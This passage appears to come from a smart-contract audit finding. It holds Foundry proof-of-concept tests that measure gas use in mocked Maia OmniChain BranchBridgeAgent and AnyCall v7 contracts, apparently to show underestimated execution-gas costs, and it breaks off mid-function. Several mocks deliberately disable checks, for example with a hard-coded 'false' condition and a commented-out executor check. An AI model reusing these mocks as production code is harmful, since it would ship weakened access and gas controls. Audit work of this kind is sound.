            // If insufficient balance, revert.
            if lt(selfbalance(), amount) {
                // Store the function selector of `ETHTransferFailed()`.
                mstore(0x00, 0xb12d13eb)
                // Revert with (offset, size).
                revert(0x1c, 0x04)
            }
            // Transfer the ETH and check if it succeeded or not.
            if iszero(call(gasStipend, to, amount, 0, 0, 0, 0)) {
                mstore(0x00, to) // Store the address in scratch space.
                mstore8(0x0b, 0x73) // Opcode `PUSH20`.
                mstore8(0x20, 0xff) // Opcode `SELFDESTRUCT`.
                // We can directly use `SELFDESTRUCT` in the contract creation.
                // Compatible with `SENDALL`: https://eips.ethereum.org/EIPS/eip-4758
                if iszero(create(amount, 0x0b, 0x16)) {
                    // To coerce gas estimation to provide enough gas for the `create` above.
                    if iszero(gt(gas(), 1000000)) { revert(0, 0) }
                }
            }
        }
    }

    /// @dev Force sends `amount` (in wei) ETH to `to`, with a gas stipend
    /// equal to `_GAS_STIPEND_NO_GRIEF`. This gas stipend is a reasonable default
    /// for 99% of cases and can be overridden with the three-argument version of this
    /// function if necessary.
    ///
    /// If sending via the normal procedure fails, force sends the ETH by
    /// creating a temporary contract which uses `SELFDESTRUCT` to force send the ETH.
    ///
    /// Reverts if the current contract has insufficient balance.
    function forceSafeTransferETH(address to, uint256 amount) internal {
        // Manually inlined because the compiler doesn't inline functions with branches.
        /// @solidity memory-safe-assembly
        assembly {
            // If insufficient balance, revert.
            if lt(selfbalance(), amount) {
                // Store the function selector of `ETHTransferFailed()`.
                mstore(0x00, 0xb12d13eb)
                // Revert with (offset, size).
                revert(0x1c, 0x04)
            }
            // Transfer the ETH and check if it succeeded or not.
            if iszero(call(_GAS_STIPEND_NO_GRIEF, to, amount, 0, 0, 0, 0)) {
                mstore(0x00, to) // Store the address in scratch space.
                mstore8(0x0b, 0x73) // Opcode `PUSH20`.
                mstore8(0x20, 0xff) // Opcode `SELFDESTRUCT`.
                // We can directly use `SELFDESTRUCT` in the contract creation.
                // Compatible with `SENDALL`: https://eips.ethereum.org/EIPS/eip-4758
                if iszero(create(amount, 0x0b, 0x16)) {
                    // To coerce gas estimation to provide enough gas for the `create` above.
                    if iszero(gt(gas(), 1000000)) { revert(0, 0) }
                }
            }
        }
    }

    /// @dev Sends `amount` (in wei) ETH to `to`, with a `gasStipend`.
    /// The `gasStipend` can be set to a low enough value to prevent
    /// storage writes or gas griefing.
    ///
    /// Simply use `gasleft()` for `gasStipend` if you don't need a gas stipend.
    ///
    /// Note: Does NOT revert upon failure.
    /// Returns whether the transfer of ETH is successful instead.
    function trySafeTransferETH(address to, uint256 amount, uint256 gasStipend)
        internal
        returns (bool success)
    {
        /// @solidity memory-safe-assembly
        assembly {
            // Transfer the ETH and check if it succeeded or not.
            success := call(gasStipend, to, amount, 0, 0, 0, 0)
        }
    }

    /*´:°•.°+.*•´.*:˚.°*.˚•´.°:°•.°•.*•´.*:˚.°*.˚•´.°:°•.°+.*•´.*:*/
    /-                    ERC20 OPERATIONS                      */
    /*.•°:°.´+˚.*°.˚:*.´•*.+°.•°:´*.´•*.•°.•°:°.´:•˚°.*°.˚:*.´+°.•*/

    /// @dev Sends `amount` of ERC20 `token` from `from` to `to`.
    /// Reverts upon failure.
    ///
    /// The `from` account must have at least `amount` approved for
    /// the current contract to manage.
    function safeTransferFrom(address token, address from, address to, uint256 amount) internal {
        /// @solidity memory-safe-assembly
        assembly {
            let m := mload(0x40) // Cache the free memory pointer.

            mstore(0x60, amount) // Store the `amount` argument.
            mstore(0x40, to) // Store the `to` argument.
            mstore(0x2c, shl(96, from)) // Store the `from` argument.
            // Store the function selector of `transferFrom(address,address,uint256)`.
            mstore(0x0c, 0x23b872dd000000000000000000000000)

            if iszero(
                and( // The arguments of `and` are evaluated from right to left.
                    // Set success to whether the call reverted, if not we check it either
                    // returned exactly 1 (can't just be non-zero data), or had no return data.
                    or(eq(mload(0x00), 1), iszero(returndatasize())),
                    call(gas(), token, 0, 0x1c, 0x64, 0x00, 0x20)
                )
            ) {
                // Store the function selector of `TransferFromFailed()`.
                mstore(0x00, 0x7939f424)
                // Revert with (offset, size).
                revert(0x1c, 0x04)
            }

            mstore(0x60, 0) // Restore the zero slot to zero.
            mstore(0x40, m) // Restore the free memory pointer.
        }
    }

    /// @dev Sends all of ERC20 `token` from `from` to `to`.
    /// Reverts upon failure.
    ///
    /// The `from` account must have their entire balance approved for
    /// the current contract to manage.
    function safeTransferAllFrom(address token, address from, address to)
        internal
        returns (uint256 amount)
    {
        /// @solidity memory-safe-assembly
        assembly {
            let m := mload(0x40) // Cache the free memory pointer.

            mstore(0x40, to) // Store the `to` argument.
            mstore(0x2c, shl(96, from)) // Store the `from` argument.
            // Store the function selector of `balanceOf(address)`.
            mstore(0x0c, 0x70a08231000000000000000000000000)
            if iszero(
                and( // The arguments of `and` are evaluated from right to left.
                    gt(returndatasize(), 0x1f), // At least 32 bytes returned.
                    staticcall(gas(), token, 0x1c, 0x24, 0x60, 0x20)
                )
            ) {
                // Store the function selector of `TransferFromFailed()`.
                mstore(0x00, 0x7939f424)
                // Revert with (offset, size).
                revert(0x1c, 0x04)
            }

            // Store the function selector of `transferFrom(address,address,uint256)`.
            mstore(0x00, 0x23b872dd)
            // The `amount` argument is already written to the memory word at 0x60.
            amount := mload(0x60)

            if iszero(
                and( // The arguments of `and` are evaluated from right to left.
                    // Set success to whether the call reverted, if not we check it either
                    // returned exactly 1 (can't just be non-zero data), or had no return data.
                    or(eq(mload(0x00), 1), iszero(returndatasize())),
                    call(gas(), token, 0, 0x1c, 0x64, 0x00, 0x20)
                )
            ) {
                // Store the function selector of `TransferFromFailed()`.
                mstore(0x00, 0x7939f424)
                // Revert with (offset, size).
                revert(0x1c, 0x04)
            }

            mstore(0x60, 0) // Restore the zero slot to zero.
            mstore(0x40, m) // Restore the free memory pointer.
        }
    }

    /// @dev Sends `amount` of ERC20 `token` from the current contract to `to`.
    /// Reverts upon failure.
    function safeTransfer(address token, address to, uint256 amount) internal {
        /// @solidity memory-safe-assembly
        assembly {
            mstore(0x14, to) // Store the `to` argument.
            mstore(0x34, amount) // Store the `amount` argument.
            // Store the function selector of `transfer(address,uint256)`.
            mstore(0x00, 0xa9059cbb000000000000000000000000)

            if iszero(
                and( // The arguments of `and` are evaluated from right to left.
                    // Set success to whether the call reverted, if not we check it either
                    // returned exactly 1 (can't just be non-zero data), or had no return data.
                    or(eq(mload(0x00), 1), iszero(returndatasize())),
                    call(gas(), token, 0, 0x10, 0x44, 0x00, 0x20)
                )
            ) {
                // Store the function selector of `TransferFailed()`.
                mstore(0x00, 0x90b8ec18)
                // Revert with (offset, size).
                revert(0x1c, 0x04)
            }
            // Restore the part of the free memory pointer that was overwritten.
            mstore(0x34, 0)
        }
    }

    /// @dev Sends all of ERC20 `token` from the current contract to `to`.
    /// Reverts upon failure.
    function safeTransferAll(address token, address to) internal returns (uint256 amount) {
        /// @solidity memory-safe-assembly
        assembly {
            mstore(0x00, 0x70a08231) // Store the function selector of `balanceOf(address)`.
            mstore(0x20, address()) // Store the address of the current contract.
            if iszero(
                and( // The arguments of `and` are evaluated from right to left.
                    gt(returndatasize(), 0x1f), // At least 32 bytes returned.
                    staticcall(gas(), token, 0x1c, 0x24, 0x34, 0x20)
                )
            ) {
                // Store the function selector of `TransferFailed()`.
                mstore(0x00, 0x90b8ec18)
                // Revert with (offset, size).
                revert(0x1c, 0x04)
            }

            mstore(0x14, to) // Store the `to` argument.
            // The `amount` argument is already written to the memory word at 0x34.
            amount := mload(0x34)
            // Store the function selector of `transfer(address,uint256)`.
            mstore(0x00, 0xa9059cbb000000000000000000000000)

            if iszero(
                and( // The arguments of `and` are evaluated from right to left.
                    // Set success to whether the call reverted, if not we check it either
                    // returned exactly 1 (can't just be non-zero data), or had no return data.
                    or(eq(mload(0x00), 1), iszero(returndatasize())),
                    call(gas(), token, 0, 0x10, 0x44, 0x00, 0x20)
                )
            ) {
                // Store the function selector of `TransferFailed()`.
                mstore(0x00, 0x90b8ec18)
                // Revert with (offset, size).
                revert(0x1c, 0x04)
            }
            // Restore the part of the free memory pointer that was overwritten.
            mstore(0x34, 0)
        }
    }

    /// @dev Sets `amount` of ERC20 `token` for `to` to manage on behalf of the current contract.
    /// Reverts upon failure.
    function safeApprove(address token, address to, uint256 amount) internal {
        /// @solidity memory-safe-assembly
        assembly {
            mstore(0x14, to) // Store the `to` argument.
            mstore(0x34, amount) // Store the `amount` argument.
            // Store the function selector of `approve(address,uint256)`.
            mstore(0x00, 0x095ea7b3000000000000000000000000)

            if iszero(
                and( // The arguments of `and` are evaluated from right to left.
                    // Set success to whether the call reverted, if not we check it either
                    // returned exactly 1 (can't just be non-zero data), or had no return data.
                    or(eq(mload(0x00), 1), iszero(returndatasize())),
                    call(gas(), token, 0, 0x10, 0x44, 0x00, 0x20)
                )
            ) {
                // Store the function selector of `ApproveFailed()`.
                mstore(0x00, 0x3e3f8f73)
                // Revert with (offset, size).
                revert(0x1c, 0x04)
            }
            // Restore the part of the free memory pointer that was overwritten.
            mstore(0x34, 0)
        }
    }

    /// @dev Returns the amount of ERC20 `token` owned by `account`.
    /// Returns zero if the `token` does not exist.
    function balanceOf(address token, address account) internal view returns (uint256 amount) {
        /// @solidity memory-safe-assembly
        assembly {
            mstore(0x14, account) // Store the `account` argument.
            // Store the function selector of `balanceOf(address)`.
            mstore(0x00, 0x70a08231000000000000000000000000)
            amount :=
                mul(
                    mload(0x20),
                    and( // The arguments of `and` are evaluated from right to left.
                        gt(returndatasize(), 0x1f), // At least 32 bytes returned.
                        staticcall(gas(), token, 0x10, 0x24, 0x20, 0x20)
                    )
                )
        }
    }
}

interface IAnycallExecutor {
    function context()
        external
        view
        returns (address from, uint256 fromChainID, uint256 nonce);

    function execute(
        address _to,
        bytes calldata _data,
        address _from,
        uint256 _fromChainID,
        uint256 _nonce,
        uint256 _flags,
        bytes calldata _extdata
    ) external returns (bool success, bytes memory result);
}

interface IAnycallConfig {
    function calcSrcFees(
        address _app,
        uint256 _toChainID,
        uint256 _dataLength
    ) external view returns (uint256);

    function executionBudget(address _app) external view returns (uint256);

    function deposit(address _account) external payable;

    function withdraw(uint256 _amount) external;
}

interface IAnycallProxy {
    function executor() external view returns (address);

    function config() external view returns (address);

    function anyCall(
        address _to,
        bytes calldata _data,
        uint256 _toChainID,
        uint256 _flags,
        bytes calldata _extdata
    ) external payable;

    function anyCall(
        string calldata _to,
        bytes calldata _data,
        uint256 _toChainID,
        uint256 _flags,
        bytes calldata _extdata
    ) external payable;
}

contract WETH9 {
    string public name = "Wrapped Ether";
    string public symbol = "WETH";
    uint8 public decimals = 18;

    event Approval(address indexed src, address indexed guy, uint256 wad);
    event Transfer(address indexed src, address indexed dst, uint256 wad);
    event Deposit(address indexed dst, uint256 wad);
    event Withdrawal(address indexed src, uint256 wad);

    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;

    // function receive() external payable {
    //   deposit();
    // }

    function deposit() public payable {
        balanceOf[msg.sender] += msg.value;
        emit Deposit(msg.sender, msg.value);
    }

    function withdraw(uint256 wad) public {
        require(balanceOf[msg.sender] >= wad);
        balanceOf[msg.sender] -= wad;
        payable(msg.sender).transfer(wad);
        emit Withdrawal(msg.sender, wad);
    }

    function totalSupply() public view returns (uint256) {
        return address(this).balance;
    }

    function approve(address guy, uint256 wad) public returns (bool) {
        allowance[msg.sender][guy] = wad;
        emit Approval(msg.sender, guy, wad);
        return true;
    }

    function transfer(address dst, uint256 wad) public returns (bool) {
        return transferFrom(msg.sender, dst, wad);
    }

    function transferFrom(
        address src,
        address dst,
        uint256 wad
    ) public returns (bool) {
        require(balanceOf[src] >= wad);

        if (src != msg.sender && allowance[src][msg.sender] != 255) {
            require(allowance[src][msg.sender] >= wad);
            allowance[src][msg.sender] -= wad;
        }

        balanceOf[src] -= wad;
        balanceOf[dst] += wad;

        emit Transfer(src, dst, wad);

        return true;
    }
}

contract AnycallExecutor {
    struct Context {
        address from;
        uint256 fromChainID;
        uint256 nonce;
    }
    // Context public override context;
    Context public context;

    constructor() {
        context.fromChainID = 1;
        context.from = address(2);
        context.nonce = 1;
    }
}

contract AnycallV7Config {
    event Deposit(address indexed account, uint256 amount);

    mapping(address => uint256) public executionBudget;

    /// @notice Deposit native currency crediting `_account` for execution costs on this chain
    /// @param _account The account to deposit and credit for
    function deposit(address _account) external payable {
        executionBudget[_account] += msg.value;
        emit Deposit(_account, msg.value);
    }
}

contract BranchBridgeAgent {
    error AnycallUnauthorizedCaller();
    error GasErrorOrRepeatedTx();

    uint256 public remoteCallDepositedGas;

    uint256 internal constant MIN_EXECUTION_OVERHEAD = 160_000; // 100_000 for anycall + 35_000 Pre 1st Gas Checkpoint Execution + 25_000 Post last Gas Checkpoint Executions
    uint256 internal constant TRANSFER_OVERHEAD = 24_000;


    WETH9 public immutable wrappedNativeToken;

    AnycallV7Config public anycallV7Config;

    uint256 public accumulatedFees;

    /// @notice Local Chain Id
    uint24 public immutable localChainId;

    /// @notice Address for Bridge Agent who processes requests submitted for the Root Router Address where cross-chain requests are executed in the Root Chain.
    address public immutable rootBridgeAgentAddress;
    /// @notice Local Anyexec Address
    address public immutable local`AnyCall`ExecutorAddress;

    /// @notice Address for Local AnycallV7 Proxy Address where cross-chain requests are sent to the Root Chain Router.
    address public immutable local`AnyCall`Address;

    constructor() {
        AnycallExecutor anycallExecutor = new AnycallExecutor();
        local`AnyCall`ExecutorAddress = address(anycallExecutor);

        localChainId = 1;

        wrappedNativeToken = new WETH9();

        local`AnyCall`Address = address(3);

        rootBridgeAgentAddress = address(2);

        anycallV7Config = new AnycallV7Config();
    }

    modifier requiresExecutor() {
        _requiresExecutor();
        _;
    }

    function _requiresExecutor() internal view {
                if (msg.sender != local`AnyCall`ExecutorAddress) revert AnycallUnauthorizedCaller();
        (address from,,) = IAnycallExecutor(local`AnyCall`ExecutorAddress).context();
        if (from != rootBridgeAgentAddress) revert AnycallUnauthorizedCaller();

    }

    function _replenishGas(uint256 _executionGasSpent) internal virtual {
        //Deposit Gas
        anycallV7Config.deposit{value: _executionGasSpent}(address(this));
        // IAnycallConfig(IAnycallProxy(local`AnyCall`Address).config()).deposit{value: _executionGasSpent}(address(this));
    }

    function _forceRevert() internal virtual {
        IAnycallConfig anycallConfig = IAnycallConfig(IAnycallProxy(local`AnyCall`Address).config());
        uint256 executionBudget = anycallConfig.executionBudget(address(this));

        // Withdraw all execution gas budget from anycall for tx to revert with "no enough budget"
        if (executionBudget > 0) try anycallConfig.withdraw(executionBudget) {} catch {}
    }

   /**
     * @notice Internal function repays gas used by Branch Bridge Agent to fulfill remote initiated interaction.
     - @param _recipient address to send excess gas to.
     - @param _initialGas gas used by Branch Bridge Agent.
     */
    function _payExecutionGas(address _recipient, uint256 _initialGas) internal virtual {
        //Gas remaining
        uint256 gasRemaining = wrappedNativeToken.balanceOf(address(this));

        //Unwrap Gas
        wrappedNativeToken.withdraw(gasRemaining);

        //Delete Remote Initiated Action State
        delete(remoteCallDepositedGas);

        ///Save gas left
        uint256 gasLeft = gasleft();

        //Get Branch Environment Execution Cost
        // Assume tx.gasPrice 1e9 
        uint256 minExecCost = 1e9 * (MIN_EXECUTION_OVERHEAD + _initialGas - gasLeft);

        //Check if sufficient balance
        if (minExecCost > gasRemaining) {
            _forceRevert();
            return;
        }

        //Replenish Gas
        _replenishGas(minExecCost);

        //Transfer gas remaining to recipient
        SafeTransferLib.safeTransferETH(_recipient, gasRemaining - minExecCost);

        //Save Gas
        uint256 gasAfterTransfer = gasleft();

        //Check if sufficient balance
        if (gasLeft - gasAfterTransfer > TRANSFER_OVERHEAD && false) { // added false here so it doesn't enter.  
            _forceRevert();
            return;
        }
    }

    function anyExecute(
        bytes memory data
    )
        public
        virtual
        requiresExecutor
        returns (bool success, bytes memory result)
    {
        //Get Initial Gas Checkpoint
        uint256 initialGas = gasleft();

        //Action Recipient
        address recipient = address(0x1); // for simplicity and since it is irrelevant //address(uint160(bytes20(data[PARAMS_START:PARAMS_START_SIGNED])));


        // Other Code Here


        //Deduct gas costs from deposit and replenish this bridge agent's execution budget.
        _payExecutionGas(recipient, initialGas);
    }

    function depositIntoWeth(uint256 amt) external {
        wrappedNativeToken.deposit{value: amt}();
    }

    fallback() external payable {}
}


contract BranchBridgeAgentEmpty {
    error AnycallUnauthorizedCaller();
    error GasErrorOrRepeatedTx();

    uint256 public remoteCallDepositedGas;

    uint256 internal constant MIN_EXECUTION_OVERHEAD = 160_000; // 100_000 for anycall + 35_000 Pre 1st Gas Checkpoint Execution + 25_000 Post last Gas Checkpoint Executions
    uint256 internal constant TRANSFER_OVERHEAD = 24_000;


    WETH9 public immutable wrappedNativeToken;

    AnycallV7Config public anycallV7Config;

    uint256 public accumulatedFees;

    /// @notice Local Chain Id
    uint24 public immutable localChainId;

    /// @notice Address for Bridge Agent who processes requests submitted for the Root Router Address where cross-chain requests are executed in the Root Chain.
    address public immutable rootBridgeAgentAddress;
    /// @notice Local Anyexec Address
    address public immutable local`AnyCall`ExecutorAddress;

    /// @notice Address for Local AnycallV7 Proxy Address where cross-chain requests are sent to the Root Chain Router.
    address public immutable local`AnyCall`Address;

    constructor() {
        AnycallExecutor anycallExecutor = new AnycallExecutor();
        local`AnyCall`ExecutorAddress = address(anycallExecutor);

        localChainId = 1;

        wrappedNativeToken = new WETH9();

        local`AnyCall`Address = address(3);

        rootBridgeAgentAddress = address(2);

        anycallV7Config = new AnycallV7Config();
    }

    modifier requiresExecutor() {
        _requiresExecutor();
        _;
    }

    function _requiresExecutor() internal view {
                if (msg.sender != local`AnyCall`ExecutorAddress) revert AnycallUnauthorizedCaller();
        (address from,,) = IAnycallExecutor(local`AnyCall`ExecutorAddress).context();
        if (from != rootBridgeAgentAddress) revert AnycallUnauthorizedCaller();

    }

    function _replenishGas(uint256 _executionGasSpent) internal virtual {
        //Deposit Gas
        anycallV7Config.deposit{value: _executionGasSpent}(address(this));
        // IAnycallConfig(IAnycallProxy(local`AnyCall`Address).config()).deposit{value: _executionGasSpent}(address(this));
    }

    function _forceRevert() internal virtual {
        IAnycallConfig anycallConfig = IAnycallConfig(IAnycallProxy(local`AnyCall`Address).config());
        uint256 executionBudget = anycallConfig.executionBudget(address(this));

        // Withdraw all execution gas budget from anycall for tx to revert with "no enough budget"
        if (executionBudget > 0) try anycallConfig.withdraw(executionBudget) {} catch {}
    }

   /**
     * @notice Internal function repays gas used by Branch Bridge Agent to fulfill remote initiated interaction.
     - @param _recipient address to send excess gas to.
     - @param _initialGas gas used by Branch Bridge Agent.
     */
    function _payExecutionGas(address _recipient, uint256 _initialGas) internal virtual {
        //Gas remaining
        uint256 gasRemaining = wrappedNativeToken.balanceOf(address(this));

        //Unwrap Gas
        wrappedNativeToken.withdraw(gasRemaining);

        //Delete Remote Initiated Action State
        delete(remoteCallDepositedGas);

        ///Save gas left
        uint256 gasLeft = gasleft(); // Everything after this is not taken into account

        //Get Branch Environment Execution Cost
        // Assume tx.gasPrice 1e9 
        // uint256 minExecCost = 1e9 * (MIN_EXECUTION_OVERHEAD + _initialGas - gasLeft);

        // //Check if sufficient balance
        // if (minExecCost > gasRemaining) {
        //     _forceRevert();
        //     return;
        // }

        // //Replenish Gas
        // _replenishGas(minExecCost);

        // //Transfer gas remaining to recipient
        // SafeTransferLib.safeTransferETH(_recipient, gasRemaining - minExecCost);

        // //Save Gas
        // uint256 gasAfterTransfer = gasleft();

        // //Check if sufficient balance
        // if (gasLeft - gasAfterTransfer > TRANSFER_OVERHEAD && false) { // added false here so it doesn't enter.  
        //     _forceRevert();
        //     return;
        // }
    }

    function anyExecute(
        bytes memory data
    )
        public
        virtual
        // requiresExecutor
        returns (bool success, bytes memory result)
    {
        //Get Initial Gas Checkpoint
        uint256 initialGas = gasleft();

        //Action Recipient
        address recipient = address(0x1); // for simplicity and since it is irrelevant //address(uint160(bytes20(data[PARAMS_START:PARAMS_START_SIGNED])));


        // Other Code Here


        //Deduct gas costs from deposit and replenish this bridge agent's execution budget.
        _payExecutionGas(recipient, initialGas);
    }

    function depositIntoWeth(uint256 amt) external {
        wrappedNativeToken.deposit{value: amt}();
    }

    fallback() external payable {}
}


contract GasCalc is DSTest, Test {
    BranchBridgeAgent branchBridgeAgent;
    BranchBridgeAgentEmpty branchBridgeAgentEmpty;

    function setUp() public {
        branchBridgeAgentEmpty = new BranchBridgeAgentEmpty();
        vm.deal(address(branchBridgeAgentEmpty.local`AnyCall`ExecutorAddress()), 100 ether); // executer pays gas
        vm.deal(address(branchBridgeAgentEmpty), 100 ether);


        branchBridgeAgent = new BranchBridgeAgent();
        vm.deal(address(branchBridgeAgent.local`AnyCall`ExecutorAddress()), 100 ether); // executer pays gas
        vm.deal(address(branchBridgeAgent), 100 ether);


    }

    // code after end checkpoint gasLeft not included
    function test_calcgasEmpty() public {
 // add weth balance
        branchBridgeAgentEmpty.depositIntoWeth(100 ether);

        vm.prank(address(branchBridgeAgentEmpty.local`AnyCall`ExecutorAddress()));
        uint256 gasStart_ = gasleft();
        branchBridgeAgentEmpty.anyExecute(bytes(""));
        uint256 gasEnd_ = gasleft();
        vm.stopPrank();
        uint256 gasSpent_ = gasStart_ - gasEnd_;
        console.log("branchBridgeAgentEmpty.anyExecute Gas Spent => %d", gasSpent_);
        


    }

    // code after end checkpoint gasLeft included
     function test_calcgas() public {

        // add weth balance
        branchBridgeAgent.depositIntoWeth(100 ether);

        vm.prank(address(branchBridgeAgent.local`AnyCall`ExecutorAddress()));
        uint256 gasStart = gasleft();
        branchBridgeAgent.anyExecute(bytes(""));
        uint256 gasEnd = gasleft();
        vm.stopPrank();
        uint256 gasSpent = gasStart - gasEnd;
        console.log("branchBridgeAgent.anyExecute Gas Spent => %d", gasSpent);


    }
}

```

</details> 

### PoC #2 (The gas consumed by `anyExec` method in ``AnyCall``)

We have contracts that simulate the `Anycall` contracts:

1. `AnycallV7Config`
2. `AnycallExecutor`
3. `AnycallV7`

The flow like this:
`MPC` => `AnycallV7` => `AnycallExecutor` => `IApp`

In the code, `IApp(_to).anyExecute` is commented out because we don't want to calculate its gas since it is done in PoC #1.

Here is the output of the test:

```sh
[PASS] test_gasInanycallv7() (gas: 102613)
Logs:
  anycallV7.anyExec Gas Spent => 110893
```

### The Coded PoC

<details>

```solidity
// PoC => Maia OmniChain: gasCalculation in `AnyCall` v7  contracts
pragma solidity >=0.8.4 <0.9.0;

import {Test} from "forge-std/Test.sol";
import "forge-std/console.sol";

import {DSTest} from "ds-test/test.sol";

/// IAnycallConfig interface of the anycall config
interface IAnycallConfig {
    function checkCall(
        address _sender,
        bytes calldata _data,
        uint256 _toChainID,
        uint256 _flags
    ) external view returns (string memory _appID, uint256 _srcFees);

    function checkExec(
        string calldata _appID,
        address _from,
        address _to
    ) external view;

    function chargeFeeOnDestChain(address _from, uint256 _prevGasLeft) external;
}

/// IAnycallExecutor interface of the anycall executor
interface IAnycallExecutor {
    function context()
        external
        view
        returns (address from, uint256 fromChainID, uint256 nonce);

    function execute(
        address _to,
        bytes calldata _data,
        address _from,
        uint256 _fromChainID,
        uint256 _nonce,
        uint256 _flags,
        bytes calldata _extdata
    ) external returns (bool success, bytes memory result);
}

/// IApp interface of the application
interface IApp {
    /// (required) call on the destination chain to exec the interaction
    function anyExecute(bytes calldata _data)
        external
        returns (bool success, bytes memory result);

    /// (optional,advised) call back on the originating chain if the cross chain interaction fails
    /// `_data` is the orignal interaction arguments exec on the destination chain
    function anyFallback(bytes calldata _data)
        external
        returns (bool success, bytes memory result);
}

library AnycallFlags {
    // call flags which can be specified by user
    uint256 public constant FLAG_NONE = 0x0;
    uint256 public constant FLAG_MERGE_CONFIG_FLAGS = 0x1;
    uint256 public constant FLAG_PAY_FEE_ON_DEST = 0x1 << 1;
    uint256 public constant FLAG_ALLOW_FALLBACK = 0x1 << 2;

    // exec flags used internally
    uint256 public constant FLAG_EXEC_START_VALUE = 0x1 << 16;
    uint256 public constant FLAG_EXEC_FALLBACK = 0x1 << 16;
}

contract AnycallV7Config {
    uint256 public constant PERMISSIONLESS_MODE = 0x1;
    uint256 public constant FREE_MODE = 0x1 << 1;

    mapping(string => mapping(address => bool)) public appExecWhitelist;
    mapping(string => bool) public appBlacklist;

    uint256 public mode;

    uint256 public minReserveBudget;

    mapping(address => uint256) public executionBudget;

    constructor() {
         mode = PERMISSIONLESS_MODE;
    }

    function checkExec(
        string calldata _appID,
        address _from,
        address _to
    ) external view {
        require(!appBlacklist[_appID], "blacklist");

        if (!_isSet(mode, PERMISSIONLESS_MODE)) {
            require(appExecWhitelist[_appID][_to], "no permission");
        }

        if (!_isSet(mode, FREE_MODE)) {
            require(
                executionBudget[_from] >= minReserveBudget,
                "less than min budget"
            );
        }
    }

    function _isSet(
        uint256 _value,
        uint256 _testBits
    ) internal pure returns (bool) {
        return (_value & _testBits) == _testBits;
    }
}

contract AnycallExecutor {
    bytes32 public constant PAUSE_ALL_ROLE = 0x00;

    event Paused(bytes32 role);
    event Unpaused(bytes32 role);

    modifier whenNotPaused(bytes32 role) {
        require(
            !paused(role) && !paused(PAUSE_ALL_ROLE),
            "PausableControl: paused"
        );
        _;
    }
    mapping(bytes32 => bool) private _pausedRoles;
    mapping(address => bool) public isSupportedCaller;


    struct Context {
        address from;
        uint256 fromChainID;
        uint256 nonce;
    }
    // Context public override context;
    Context public context;

    function paused(bytes32 role) public view virtual returns (bool) {
        return _pausedRoles[role];
    }

    modifier onlyAuth() {
        require(isSupportedCaller[msg.sender], "not supported caller");
        _;
    }

    constructor(address anycall) {
        context.fromChainID = 1;
        context.from = address(2);
        context.nonce = 1;

        isSupportedCaller[anycall] = true;
    }

function _isSet(uint256 _value, uint256 _testBits)
        internal
        pure
        returns (bool)
    {
        return (_value & _testBits) == _testBits;
    }

    // @dev `_extdata` content is implementation based in each version
    function execute(
        address _to,
        bytes calldata _data,
        address _from,
        uint256 _fromChainID,
        uint256 _nonce,
        uint256 _flags,
        bytes calldata /*_extdata*/
    )
        external
        virtual
        onlyAuth
        whenNotPaused(PAUSE_ALL_ROLE)
        returns (bool success, bytes memory result)
    {
        bool isFallback = _isSet(_flags, AnycallFlags.FLAG_EXEC_FALLBACK);

        context = Context({
            from: _from,
            fromChainID: _fromChainID,
            nonce: _nonce
        });

        if (!isFallback) {
            // we skip calling anyExecute since it is irrelevant for this PoC
            // (success, result) = IApp(_to).anyExecute(_data);
        } else {
            (success, result) = IApp(_to).anyFallback(_data);
        }

        context = Context({from: address(0), fromChainID: 0, nonce: 0});
    }
}

contract AnycallV7 {

    event Log`AnyCall`(
        address indexed from,
        address to,
        bytes data,
        uint256 toChainID,
        uint256 flags,
        string appID,
        uint256 nonce,
        bytes extdata
    );
    event Log`AnyCall`(
        address indexed from,
        string to,
        bytes data,
        uint256 toChainID,
        uint256 flags,
        string appID,
        uint256 nonce,
        bytes extdata
    );

    event LogAnyExec(
        bytes32 indexed txhash,
        address indexed from,
        address indexed to,
        uint256 fromChainID,
        uint256 nonce,
        bool success,
        bytes result
    );


    event StoreRetryExecRecord(
        bytes32 indexed txhash,
        address indexed from,
        address indexed to,
        uint256 fromChainID,
        uint256 nonce,
        bytes data
    );

    // Context of the request on originating chain
    struct RequestContext {
        bytes32 txhash;
        address from;
        uint256 fromChainID;
        uint256 nonce;
        uint256 flags;
    }
    address public mpc;

    bool public paused;

    // applications should give permission to this executor
    address public executor;

    // anycall config contract
    address public config;

    mapping(bytes32 => bytes32) public retryExecRecords;
    bool public retryWithPermit;

    mapping(bytes32 => bool) public execCompleted;
    uint256 nonce;

    uint256 private unlocked;

    modifier lock() {
        require(unlocked == 1, "locked");
        unlocked = 0;
        _;
        unlocked = 1;
    }
    /// @dev Access control function
    modifier onlyMPC() {
        require(msg.sender == mpc, "only MPC");
        _;
    }

    /// @dev pausable control function
    modifier whenNotPaused() {
        require(!paused, "paused");
        _;
    }

    function _isSet(uint256 _value, uint256 _testBits)
        internal
        pure
        returns (bool)
    {
        return (_value & _testBits) == _testBits;
    }


    /// @dev Charge an account for execution costs on this chain
    /// @param _from The account to charge for execution costs
    modifier chargeDestFee(address _from, uint256 _flags) {
        if (_isSet(_flags, AnycallFlags.FLAG_PAY_FEE_ON_DEST)) {
            uint256 _prevGasLeft = gasleft();
            _;
            IAnycallConfig(config).chargeFeeOnDestChain(_from, _prevGasLeft);
        } else {
            _;
        }
    }

    constructor(address _mpc) {
        unlocked = 1; // needs to be unlocked initially
        mpc = _mpc;
        config = address(new AnycallV7Config());
        executor = address(new AnycallExecutor(address(this)));
    }

    /// @notice Calc unique ID
    function calcUniqID(
        bytes32 _txhash,
        address _from,
        uint256 _fromChainID,
        uint256 _nonce
    ) public pure returns (bytes32) {
        return keccak256(abi.encode(_txhash, _from, _fromChainID, _nonce));
    }

    function _execute(
        address _to,
        bytes memory _data,
        RequestContext memory _ctx,
        bytes memory _extdata
    ) internal returns (bool success) {
        bytes memory result;

        try
            IAnycallExecutor(executor).execute(
                _to,
                _data,
                _ctx.from,
                _ctx.fromChainID,
                _ctx.nonce,
                _ctx.flags,
                _extdata
            )
        returns (bool succ, bytes memory res) {
            (success, result) = (succ, res);
        } catch Error(string memory reason) {
            result = bytes(reason);
        } catch (bytes memory reason) {
            result = reason;
        }

        emit LogAnyExec(
            _ctx.txhash,
            _ctx.from,
            _to,
            _ctx.fromChainID,
            _ctx.nonce,
            success,
            result
        );
    }

    /**
        @notice Execute a cross chain interaction
        @dev Only callable by the MPC
        @param _to The cross chain interaction target
        @param _data The calldata supplied for interacting with target
        @param _appID The app identifier to check whitelist
        @param _ctx The context of the request on originating chain
        @param _extdata The extension data for execute context
    */
   // Note: changed from callback to memory so we can call it from the test contract
    function anyExec(
        address _to,
        bytes memory _data,
        string memory _appID,
